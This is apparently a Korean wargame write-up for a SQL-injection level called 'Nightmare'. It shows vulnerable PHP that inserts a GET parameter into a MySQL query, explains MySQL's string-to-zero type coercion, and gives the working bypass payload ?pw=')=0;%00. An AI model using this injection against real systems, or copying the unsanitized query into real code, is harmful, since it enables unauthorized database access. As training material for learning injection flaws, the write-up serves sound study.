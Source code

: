 # Nightmare

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`pw`를 `(' ')`의 형태로 감싸주고 있어, 두개 다 이스케이프를 해야한다.
오히려 이를 이용하여 `;`를 이용해 값을 `True`로 만들어 줄 것이다.

`mysql`에서 자동 형 변환 규칙이 있는데, 그 중 하나는
> 문자열은 숫자 0과 같다.
라는 것이다.

이를 이용하여 `''=0`을 넣어주고 문장을 종결시킬 예정이다.

>?pw=')=0;%00

처음에 `;` 이용법을 잘 몰라서 헤맸지만, `;`는 `%00`과 같이다녀서
`;%00`으로 쓰니까 잘 작동하였다.

Clear!
